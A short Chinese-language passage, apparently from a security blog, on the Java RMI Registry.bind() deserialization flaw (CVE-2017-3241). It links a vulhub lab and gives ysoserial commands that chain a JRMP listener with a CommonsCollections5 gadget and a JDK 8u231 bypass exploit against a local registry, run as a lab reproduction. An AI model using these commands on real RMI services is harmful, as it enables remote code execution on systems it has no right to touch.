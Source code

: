 具体利用可参考：[CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞](http://www.code2sec.com/cve-2017-3241-java-rmi-registrybindfan-xu-lie-hua-lou-dong.html)


vulhub上也有对应的靶场：[rmi-registry-bind-deserialization-bypass](https://github.com/vulhub/vulhub/tree/master/java/rmi-registry-bind-deserialization-bypass)


此靶场用的jdk版本为：jdk8u131


对于 jdk>=8u231，<8u241 版本时，可以使用改造过后的ysoserial来打，这里使用了[https://github.com/bit4woo/ysoserial/tree/bit4woo](https://github.com/bit4woo/ysoserial/tree/bit4woo).


```java
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections5 "cmd /c calc"

```


```java
java -cp ysoserial-0.0.6-bit4woo-all.jar ysoserial.exploit.RMIRegistryExploitJdk8u231 127.0.0.1 1099 JRMPClient2 127.0.0.1:9999

```


_本地成功在jdk1.8231版本上复现成功：_


![picgo2021-10-27-14-18-28.png](../post_images/432b428bdfbf5172e7cbd6a73e3d0731.png)
